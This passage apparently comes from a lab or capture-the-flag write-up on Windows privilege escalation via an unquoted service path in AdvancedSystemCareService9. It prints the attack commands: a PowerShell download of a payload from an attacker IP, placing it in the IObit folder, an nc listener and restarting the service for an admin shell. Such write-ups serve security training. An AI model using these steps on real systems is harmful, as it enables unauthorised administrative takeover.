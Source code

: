 After that, we upload the to the target using the following command:

```
powershell Invoke-WebRequest -Uri http://10.9.1.255:80/Advanced.exe -Outfile Advanced.exe
```

We could have placed this file on the folder, where the service *AdvancedSystemCareService9* is located but since we don't have *write* permissions there, we moved it to a parent folder.

```
copy Advanced.exe \\C:\\\\"Program Files (x86)"\\IObit\\
```

In this case, we exploited *unquoted* services on windows, which first search for the name of the executable as described below:

```
1st - \\C:\\\\Program
2st - \\C:\\\\Program Files
3rd - \\C:\\\\Program Files (x86)\\
4th - \\C:\\\\Program Files (x86)\\IObit\\
5th - \\C:\\\\Program Files (x86)\\IObit\\Advanced.exe (our payload) - Execution stops here
6th - \\C:\\\\Program Files (x86)\\IObit\\Advanced
7th  \\C:\\\\Program Files (x86)\\IObit\\Advanced SystemCare\\ASCService.exe
```

On our attacking machine, we create a listener:

```
nc -lvnp 4443
```

Eventually, we execute stop and restart the service:

```
sc stop AdvancedSystemCareService9

sc start AdvancedSystemCareService9
```

This process gives a shell with administrative privileges, as shown below:

![Admin shell](image-7.png)
